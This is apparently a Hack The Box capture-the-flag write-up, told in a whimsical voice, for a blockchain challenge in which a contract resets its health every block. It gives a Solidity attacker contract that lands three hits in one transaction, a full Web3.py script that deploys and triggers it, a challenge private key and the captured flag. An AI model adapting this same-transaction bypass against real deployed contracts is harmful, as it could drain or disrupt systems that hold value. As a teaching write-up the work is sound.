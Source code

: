 ```yaml
---
title: hacqueen-vs-eldorion
image: https://yourhostedimage.url/path/to/eldorion_visual.png
date: 2025-03-26
description: A glitter-fueled showdown between Hacqueen and a self-healing smart contract beast. Spoiler: the unicorn doesn’t miss.
tags: ["Blockchain", "Smart Contract", "CTF", "HTB"]
---
```


# 🌈✨ Hacqueen vs Eldorion: Bytes, Bravery & a Battle Unicorn ✨🌈

![Hacqueen vs Eldorion](https://yourhostedimage.url/path/to/eldorion_visual.png)

This HTB challenge was pure drama: a pixel-perfect realm, an overpowered regenerating beast, and one fabulous hacker armed with Web3, glitter, and Python.

> *Welcome to the realms of Eldoria, adventurer. You’ve found yourself trapped in this mysterious digital domain, and the only way to escape is by overcoming the trials laid before you. But your journey has barely begun, and already an overwhelming obstacle stands in your path. Before you can even reach the nearest city, seeking allies and information, you must face Eldorion, a colossal beast with terrifying regenerative powers. This creature, known for its "eternal resilience" guards the only passage fo...

🎯 **Goal**: Defeat Eldorion — a smart contract boss that heals every time a new block is mined.

Sounds impossible? Not for Hacqueen. Let’s ride. 🦄💻

---

## 🔍 Contract Breakdown

```solidity
modifier eternalResilience() {
    if (block.timestamp > lastAttackTimestamp) {
        health = MAX_HEALTH;
        lastAttackTimestamp = block.timestamp;
    }
    _;
}
```

Eldorion has 300 HP. Each attack can only do 100 damage. And it resets health every new block.  
🧠 So we need **three hits in one transaction**.

---

## 🛠️ The Exploit

### Solidity Contract

```solidity
contract Slayer {
    IEldorion public target;

    constructor(address _target) {
        target = IEldorion(_target);
    }

    function slay() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
```

Wrapped into a Python script using Web3.py + solcx, we deploy this contract and call `slay()`.

### Python Exploit Script

```python
from web3 import Web3
from solcx import compile_source, install_solc, set_solc_version
import socket
import time

RPC_URL = "http://94.237.57.68:53823"
PRIVATE_KEY = "0xd97be7b491c9349d726d8757df1ce9a65cc18f5cd6c9d497eb29284663107a15"
PLAYER_ADDRESS = "0x886180A2D97C803E011e744d6757f7E4b923E0a0"
TARGET_ADDRESS = "0x3BE1F55b1De2B149C77677052975c6C2C58BDe91"
SETUP_ADDRESS = "0x926B826A715B4B7438c88cD7d8d523A70f03Bd63"
INTERFACE_HOST = "94.237.57.68"
INTERFACE_PORT = 40453

SOURCE = """
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
}

contract Slayer {
    IEldorion public target;

    constructor(address _target) {
        target = IEldorion(_target);
    }

    function slay() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
"""

install_solc("0.8.28")
set_solc_version("0.8.28")
w3 = Web3(Web3.HTTPProvider(RPC_URL))
acct = w3.eth.account.from_key(PRIVATE_KEY)

compiled = compile_source(SOURCE)
interface = compiled.popitem()[1]
SlayerContract = w3.eth.contract(abi=interface['abi'], bytecode=interface['bin'])

deploy_tx = SlayerContract.constructor(TARGET_ADDRESS).build_transaction({
    "from": acct.address,
    "nonce": w3.eth.get_transaction_count(acct.address),
    "gas": 300000,
    "gasPrice": w3.eth.gas_price,
})
signed = acct.sign_transaction(deploy_tx)
tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction)
receipt = w3.eth.wait_for_transaction_receipt(tx_hash)

if receipt.contractAddress is None:
    print("❌ Deployment failed.")
    exit(1)

slayer_address = receipt.contractAddress
slayer_instance = w3.eth.contract(address=slayer_address, abi=interface['abi'])

slay_tx = slayer_instance.functions.slay().build_transaction({
    "from": acct.address,
    "nonce": w3.eth.get_transaction_count(acct.address),
    "gas": 200000,
    "gasPrice": w3.eth.gas_price,
})
signed = acct.sign_transaction(slay_tx)
w3.eth.send_raw_transaction(signed.raw_transaction)
time.sleep(2)

setup_abi = [{
    "inputs": [],
    "name": "isSolved",
    "outputs": [{"internalType": "bool", "name": "", "type": "bool"}],
    "stateMutability": "view",
    "type": "function"
}]
setup = w3.eth.contract(address=SETUP_ADDRESS, abi=setup_abi)
solved = setup.functions.isSolved().call()

if solved:
    print("✅ Challenge Solved!")
    with socket.create_connection((INTERFACE_HOST, INTERFACE_PORT)) as sock:
        sock.recv(4096)
        sock.sendall(b"3\n")
        flag = sock.recv(4096).decode()
        print("[🏁] FLAG:\n" + flag)
else:
    print("❌ Eldorion still stands...")
```

---

## 🧪 Result

Flag in hand, beast on the floor:

```
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```

---

## 🦄 Final Glitterprint

✨ One block.  
💥 Three hits.  
👑 All slay, no delay.

Because when Hacqueen and her unicorn ride in... bugs get patched and beasts get rekt.
